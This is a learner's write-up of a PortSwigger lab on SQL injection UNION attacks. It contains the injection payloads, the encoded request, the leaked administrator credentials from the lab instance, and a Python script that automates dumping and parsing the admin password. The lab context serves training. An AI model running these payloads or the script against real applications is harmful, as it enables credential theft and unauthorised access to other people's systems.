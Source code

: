 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

- Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the `category` parameter:

 `'+UNION+SELECT+NULL,'abc'--`

**Payload:**
```php
Pets' UNION SELECT NULL, username||'~'||password FROM users-- 
```

```php
GET /filter?category=Pets'%20UNION%20SELECT%20NULL%2c%20username%7c%7c'~'%7c%7cpassword%20FROM%20users--
```

![[Pasted image 20240831090455.png]]

```php
<tr>
<th>administrator~8i70b58im1huc85x5rm5</th>
<tr>
```

`administrator~8i70b58im1huc85x5rm5`

This script was a bit of a challenge because i don't really know what i'm doing with `re` or the`BeautifulSoup` python modules yet, but it does work and i eventually managed to pull out just the password without anything else being added.

```php
┌──(kali㉿kali)-[~/Documents/portswigger/sql-injection/lab6]
└─$ ./lab6.py https://0ae000140483973d8041629500e200c1.web-security-academy.net/
(+) Launching attack...
Admin pass is: uys03k3uqgp8217hb9qh

```

**Script:**
```python
#!/usr/bin/python3

import sys
import requests
import urllib3
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def union_atk(s, url):
	exploit_url = url + "filter?category=Pets'%20UNION%20SELECT%20NULL%2c%20username%7c%7c'~'%7c%7cpassword%20FROM%20users--"
	r = s.get(exploit_url, verify=False, proxies=proxies)
	if 'admin' in r.text:
		soup = BeautifulSoup(r.text, 'html.parser')
		el = soup.find_all('th')[3]
		admin_pass = el.get_text(separator='~')
		print('Admin pass is: %s' % admin_pass[14:])
	
	else:
		print('(-) Exploit failed.')
		
		
def main():
	if len(sys.argv) != 2:
		print('(+) Usage: %s www.example.com/' % sys.argv[0])
		sys.exit(-1)
		
	print('(+) Launching attack...')
	
	s = requests.Session()
	url = sys.argv[1]
	union_atk(s, url)

if __name__ == '__main__':
	main()
```

- As with all these scripts, sometimes the categories of items change, so you may need to adjust it as needed.

`category=Pets` > `category=Gifts` etc...

---

**Completed:** _10:11 2024-08-31_

